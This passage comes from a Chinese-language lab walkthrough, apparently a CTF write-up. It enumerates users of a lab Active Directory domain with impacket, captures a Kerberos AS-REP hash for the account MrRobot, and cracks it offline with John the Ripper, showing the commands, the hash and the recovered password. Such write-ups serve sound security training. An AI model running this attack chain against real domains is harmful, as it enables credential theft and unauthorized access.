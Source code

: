 脚本成功枚举出了域 `NOVICE` 的 SID 以及多个用户和组，包括 `Administrator`、`krbtgt` 和一个名为 `MrRobot` 的普通用户。为了方便后续利用，我们将所有类型为 `SidTypeUser` 的用户名提取并保存到 `user` 文件中。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ python3 /usr/share/doc/python3-impacket/examples/lookupsid.py anonymous@192.168.205.132 2>/dev/null | grep "(SidTypeUser)" | cut -d '\' -f2 | cut -d ' ' -f1 > user
Password:
                                                                                                                                                                                  
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ cat user      
Administrator
Guest
krbtgt
DC$
MrRobot
```

## **2.3 AS-REP Roasting 攻击**

> **知识点**: AS-REP Roasting 是一种针对Kerberos认证的攻击。如果一个域用户的账户属性中设置了 “不需要Kerberos预身份验证” (`UF_DONT_REQUIRE_PREAUTH` is `True`)，那么任何攻击者都可以冒充该用户向KDC（密钥分发中心）请求认证票据（AS-REP）。KDC会直接返回一个用该用户密码哈希加密的TGT票据。攻击者可以截获这个票据并进行离线破解，从而获取用户明文密码。

我们利用上一步获得的用户列表，使用 `GetNPUsers.py` 脚本尝试进行 AS-REP Roasting 攻击。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py novice.com/ -usersfile user -format john -outputfile hash -no-pass -dc-ip 192.168.205.132
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User DC$ doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$MrRobot@NOVICE.COM:17037b58fa06936b306893c2184c444a$fdd9db20ebe37b4cd79a1847c9cb7b2cbee5fa22c21c180ad23bc22e4249b7d373d3cd31d083493258d493f0c6a2fd4e38847fff4d1b93c7d3803a754dc78e0649c7f678ff7c40a06faee8d5fbf461e4aa69769eaafaf1ddf24383126f5724027343ab0fd70dd8501a3bf9ef39b9e08c4112bab1180b2f316fd7bd3205feed3f8c0366120602d0226094881746adcda4609a5f303139c2845ee0817321575d2c9e648fff2d8f46a11f70c49e0f057bbe0ed7155a16819211dc0c20eee7c09b42c423e12df38d788b5975ed5fdf1b64b7572e4c041580475835258a4b5d474e89e3a2dbec797756d9
```

脚本的输出显示，用户 `MrRobot` 的账户存在此配置缺陷，并成功获取了其 AS-REP 哈希，已保存至 `hash` 文件中。

## **2.4 离线密码破解**

接下来，使用 `John the Ripper` 配合强大的 `rockyou.txt` 字典，对获取到的哈希进行离线暴力破解。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 512/512 AVX512BW 16x])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mrroboto12       ($krb5asrep$MrRobot@NOVICE.COM)     
1g 0:00:00:01 DONE (2025-08-22 22:50) 0.5813g/s 3110Kp/s 3110Kc/s 3110KC/s mrsbrown89..mrkonochi
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
